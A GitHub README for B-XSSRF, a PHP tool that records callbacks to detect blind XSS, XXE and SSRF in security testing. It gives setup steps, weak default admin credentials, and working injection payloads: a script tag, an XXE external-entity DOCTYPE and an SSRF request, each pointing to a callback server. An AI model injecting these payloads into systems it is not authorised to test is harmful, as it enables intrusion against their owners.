 <h1 align="center">
  <br>
  <a href=""><img src="https://github.com/SpiderMate/B-XSSRF/blob/master/img/icon.png" width="70" height="70" alt="B-XSSRF"></a>
  <br>
  B-XSSRF
  <br>
</h1>

<h4 align="center">Toolkit to detect and keep track on Blind XSS, XXE & SSRF</h4>

<p align="center">
  <a href="https://github.com/SpiderMate/PS-Ducky/releases">
    <img src="https://img.shields.io/badge/release-v1.0-blue.svg">
  </a>
  <a href="https://github.com/SpiderMate/PS-Ducky/issues">
    <img src="https://img.shields.io/badge/issues-0-red.svg">
  </a>
    <a href="https://github.com/SpiderMate/PS-Ducky/issues">
    <img src="https://img.shields.io/badge/php-5-green.svg">
  </a>
</p>

<img src="https://github.com/SpiderMate/B-XSSRF/blob/master/img/dashboard.png" alt="B-XSSRF">

### SETUP
- Upload the files to your server.
- Create a Database and upload <b>database.sql</b> file to it.
- Change the <b>DB Credentials</b> in <b>db.php</b> file.
- Ready.

### USAGE
BLIND XSS 

```
<embed src="http://mysite.com/request.php">
<script src="http://mysite.com/bxssrf/request.php">
```
BLIND XXE

```
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://mysite.com/bxssrf/request.php"> %ext;
]>
<r></r>
```
SSRF

```
GET /testssrf.php=http://mysite.com/bxssrf/request.php

```
### DEFAULT CREDENTIALS
```
USER : admin@test.com
PASS : 123456
```
